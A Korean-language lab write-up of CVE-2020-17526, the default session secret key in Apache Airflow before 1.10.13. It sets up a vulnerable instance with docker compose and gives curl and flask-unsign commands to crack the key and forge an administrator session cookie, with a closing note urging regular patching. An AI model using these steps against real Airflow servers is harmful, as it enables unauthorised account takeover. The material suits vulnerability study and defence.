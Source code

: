 # CVE-2020-17526

**Contributors**

-   [박준서(@DerekAlbertJun)](https://github.com/DerekAlbertJun)

<br/>

### 요약

-   Apache Airflow는 인증을 기본으로 필요로 하지 않지만, 관리자는 인증을 활성화할 수 있음.
-   버전 1.10.13 이전에는 기본 세션 보안 키를 사용하며, 이로 인해 인증이 활성화된 경우 임의의 사용자를 흉내 낼 수 있음.
-   공격자가 세션 키를 해독하여 임의의 사용자로 로그인하는 과정을 다룸.

<br/>

### 환경 구성 및 실행

-   Apache Airflow 1.10.10 서버를 실행하려면 다음 명령을 실행한다.
데이터베이스 초기화
‘docker compose run airflow-init‘

서비스 시작
’docker compose up –d‘
-   서버가 실행되면 웹 브라우저에서 ‘http://your-ip:8080’ 주소로 이동하여 Apache Airflow의 로그인 페이지를 확인할 수 있다. 이 서버는 인증이 필요하다.
-   공격 과정을 수행하기 위해 먼저 로그인 페이지로 이동하고, Cookie에서 세션 문자열을 가져온다.
‘curl –v http://localhost:8080/admin/airflow/login’
-    그런 다음 flask-unsign을 사용하여 세션 키를 해독한다.
‘flask-unsign –u –c [Cookie에서 가져온 세션]’
-    유효한 세션 키인 temporary_key를 얻는다. 이 키를 사용하여 user_id가 1인 새로운 세션을 생성한다.
‘flask-unsign –s —secret temporary_key –c “{’user_id’ : ‘1’, ‘_fresh’ : False, ‘_permanent’ : True}”’
-    마지막으로 이 생성된 세션을 사용하여 성공적으로 로그인한다.


<br/>

### 결과
![](result.png)

<br/>

### 정리

-   이 취약점은 Apache Airflow에서 인증 우회를 허용했기 때문에, 공격자가 인증된 사용자로 위장하여 시스템에 접근할 수 있는 문제를 발생시킵니다. 안전한 웹 서비스 운영을 위해서는 이러한 취약점을 주기적으로 확인하고 패치하는 것이 중요합니다. 
